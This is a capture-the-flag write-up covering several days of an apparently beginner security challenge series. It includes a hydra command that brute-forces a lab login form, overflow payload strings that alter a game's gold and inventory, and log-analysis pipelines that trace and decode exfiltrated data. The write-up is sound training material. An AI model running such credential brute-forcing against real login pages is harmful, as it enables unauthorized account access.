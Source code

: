 # Not including the days with copy paste solutions

## Day 2

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/4c531c44-e8db-4bd0-9386-69eaf47d95a1)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/55a7560a-da16-4b21-a40d-3c7139abce43)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/df85fff5-553f-4b1f-ab72-42da868f0957)

## Day 4
Instead of using their wfuzz wordlist, I tried writing my own payload with hydra:

``` hydra -L usernames.txt  -P passwords.txt 10.10.229.119 http-post-form "/login.php:username=^USER^&password=^PASS^:Please enter the correct credentials" -V -f ```

## Day 6

Gold payload:
```AAAAAAAAAAAAXXXX```

Star payload:
```AAAAAAAAAAAAAAAAAAAAAAAAAAAAd```

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/bd55a709-e224-4462-9b88-402839baf887)

The offset to the gold is 12 bytes, the offset to the inventory is 28 bytes. We know the id of the star is "d" because of the shop.

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/681ab864-920c-4e48-af7b-90865cba8af2)

## Day 7

How many unique IP addresses are connected to the proxy server?
``` cat access.log | cut -d ' ' -f2 | sort | uniq | wc -l ```

How many unique domains were accessed by all workstations?
``` cat access.log | cut -d ' ' -f3 | cut -d ':' -f1 | sort | uniq | wc -l ```

What status code is generated by the HTTP requests to the least accessed domain?
``` cat access.log | cut -d ' ' -f3 | cut -d ':' -f1 | sort | uniq -c | sort -n | head -n 1 ```
``` cat access.log | grep partnerservices.getmicrosoftkey.com ```

Based on the high count of connection attempts, what is the name of the suspicious domain?
```cat access.log | cut -d ' ' -f3 | cut -d ':' -f1 | sort | uniq -c | sort -n | tail```

What is the source IP of the workstation that accessed the malicious domain?
``` cat access.log | grep frostlings.bigbadstash.thm | cut -d ' ' -f2  ```

How many requests were made on the malicious domain in total?
``` cat access.log | grep frostlings.bigbadstash.thm | wc -l ```

Having retrieved the exfiltrated data, what is the hidden flag?
``` cat access.log | grep frostlings.bigbadstash.thm | cut -d ' ' -f 5 | cut -d '=' -f2 | base64 -d ```

